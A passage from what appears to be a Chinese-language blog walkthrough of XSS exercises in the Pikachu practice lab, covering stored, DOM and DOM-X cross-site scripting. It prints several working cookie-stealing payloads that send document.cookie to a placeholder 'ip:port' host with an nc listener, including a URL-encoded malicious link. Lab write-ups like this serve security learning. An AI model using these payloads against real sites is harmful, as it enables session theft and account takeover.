 ```html
<script>new Image().src="http://ip:port/cookie="+encodeURI(document.cookie);</script>
```

很快啊，cookie就收到了

![pikachu17](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu17.png)

刷新页面，也还是能收到cookie，存储型xss

## DOM型XSS

随便输入个1

![pikachu18](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu18.png)

出现在了dom树中，dom型xss，尝试构造恶意dom

```html
' onclick="new Image().src='http://ip:port/?cookie='+encodeURI(document.cookie);">
```

恶意dom拆入后新dom树如下

![pikachu19](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu19.png)

照例vps开启nc监听，客户端点击后vps收到cookie

![pikachu20](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu20.png)

## DOM型XSS-X

随便输入个flag，出现在了dom中，并且url内参数也发生了变化，类型get反射型xss

![pikachu21](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu21.png)

思路一样还是闭合标签，构造恶意dom

```
' onclick="new Image().src='http://ip:port/?cookie='.concat(encodeURI(document.cookie));">
```

这里连接字符串不能用`+`号了，`+`号经url编码后失去了连接符的作用，所以用concat函数替换

同时此种恶意链接经url编码后如下

```
http://ip/vul/xss/xss_dom_x.php?text=%27+onclick%3D%22new+Image%28%29.src%3D%27http%3A%2F%2Fip%3Aport%2F%3Fcookie%3D%27.concat%28encodeURI%28document.cookie%29%29%3B%22%3E#
```

![pikachu22](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu22.png)

点击标签中内容，vps即可收到cookie

![pikachu23](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/pikachu23.png)
